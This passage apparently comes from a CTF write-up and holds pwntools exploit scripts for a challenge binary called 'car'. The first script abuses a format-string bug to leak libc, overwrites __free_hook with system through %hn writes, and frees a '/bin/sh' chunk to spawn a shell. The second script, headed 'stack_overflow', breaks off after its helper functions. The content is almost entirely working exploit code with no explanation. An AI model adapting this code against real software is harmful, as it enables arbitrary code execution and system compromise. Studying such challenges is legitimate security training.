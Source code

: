 ```python
	p.sendlineafter(": ",str(idx))
	cmd(2)
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)

def show(idx):
	cmd(3)
	p.sendlineafter(": ",str(idx))
context.log_level='debug'
context.arch='amd64'
libc=ELF('./libc.so')
p=process("./car",env={"LD_PRELOAD":"./libc.so"})
p.sendlineafter(": ","n132")
p.sendlineafter(": ","n132")
add(0,0x100)
add(1,0x8,'/bin/sh\x00')
edit(0,0x100,"%3$p|\x00")
base=int(p.readuntil("|")[:-1],16)-(0x7ffff7b05641-0x7ffff7a21000)
log.warning(hex(base))
libc.address=base
cmd(3)
gdb.attach(p,'b *0x000555555555810')
sys=libc.sym['system']
p1=sys&0xffff
p2=(sys>>16)&0xffff
p3=(sys>>32)&0xffff
def cal(a,b):
	if b>a:
		return b-a
	else:
		return b-a+0x10000
edit(0,0x100,"%{}c%16$hn%{}c%17$hn%{}c%18$hn\x00".format(p1,cal(p1,p2),cal(p2,p3)).ljust(0x30)+p64(libc.sym['__free_hook'])+p64(libc.sym['__free_hook']+2)+p64(libc.sym['__free_hook']+4))
cmd(3)
free(1)
p.interactive()
```

# stack_overflow
```python
from pwn import *
def cmd(c):
	p.sendlineafter("> ",str(c))
def add(idx,size,c='A',tp=1,color=1):
	cmd(1)
	cmd(tp)
	cmd(color)
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)
	p.sendlineafter(": ",str(idx))
def free(idx):
	cmd(4)
	p.sendlineafter(": ",str(idx))
def edit(idx,size,c='A'):
	cmd(2)
	p.sendlineafter(": ",str(idx))
	cmd(2)
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)

def show(idx):
	cmd(3)
```